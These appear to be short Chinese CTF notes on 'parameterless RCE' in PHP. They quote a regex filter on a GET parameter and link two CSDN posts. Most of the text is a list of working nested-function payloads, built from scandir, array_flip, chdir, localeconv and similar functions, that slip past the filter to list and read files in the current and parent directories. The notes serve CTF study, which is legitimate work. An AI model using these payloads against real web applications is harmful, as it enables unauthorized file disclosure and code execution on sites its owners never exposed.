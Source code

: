 无参RCE

 //无参REC的标志之一

preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {

[无参数RCE绕过的详细总结（六种方法）_无参数的取反rce-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/133808536)

简而言之，无参数rce就是不使用参数，而只使用一个个函数最终达到目的。



[无参数RCE绕过的详细总结（六种方法）_无参数的取反rce-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/133808536)

```
end() ： 将内部指针指向数组中的最后一个元素，并输出
next() ：将内部指针指向数组中的下一个元素，并输出
prev() ：将内部指针指向数组中的上一个元素，并输出
reset() ： 将内部指针指向数组中的第一个元素，并输出
each() ： 返回当前元素的键名和键值，并将内部指针向前移动

highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，不然手动要刷新很久，如果文件是正数或倒数第一个第二个最好不过了，直接定位
  //查看和读取根目录文件
  //查看和读取根目录文件
```

